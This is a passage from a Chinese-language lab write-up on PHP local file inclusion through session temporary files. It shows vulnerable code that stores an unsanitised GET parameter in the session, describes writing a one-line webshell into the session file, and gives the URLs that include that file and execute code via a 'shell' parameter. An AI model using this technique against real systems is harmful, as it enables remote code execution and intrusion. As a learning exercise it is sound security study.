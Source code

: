 尝试运行，报错，尝试换一张jpg照片也一样，换了一张png的成功

![image-20220928192914652](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928192914652.png)

![image-20220928192958277](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928192958277.png)

## 四、session临时文件包含

模拟一个超简单的登录，首先创建一个login.php

```php
<?php
session_start();
$_SESSION['name']=$_GET['user'];
?>
```

然后访问，没有报错就说明成功了，然后查看session文件

```php
http://192.168.235.152/login.php?user=admin
```

![image-20220928234945956](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928234945956.png)

可以看到admin已经被进入其中

![image-20220928235034254](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928235034254.png)

接下来尝试写入一句话木马，也写入成功

![image-20220928235157131](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928235157131.png)

然后就是假装获取一下sessionid，首先右键检查，然后点network，然后重新加载网页，就可以获取sessionid了

![image-20220928235341450](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928235341450.png)

然后尝试include，成功打开

```
http://192.168.235.152/test.php?cmd=../temp/sess_pgqucnp3p4gb7edd31ruj160f0
```

![image-20220928235500458](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928235500458.png)

```
http://192.168.235.152/test.php?cmd=../temp/sess_pgqucnp3p4gb7edd31ruj160f0&shell=phpinfo();
```

接下来带参数，成功了

![image-20220928235601906](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928235601906.png)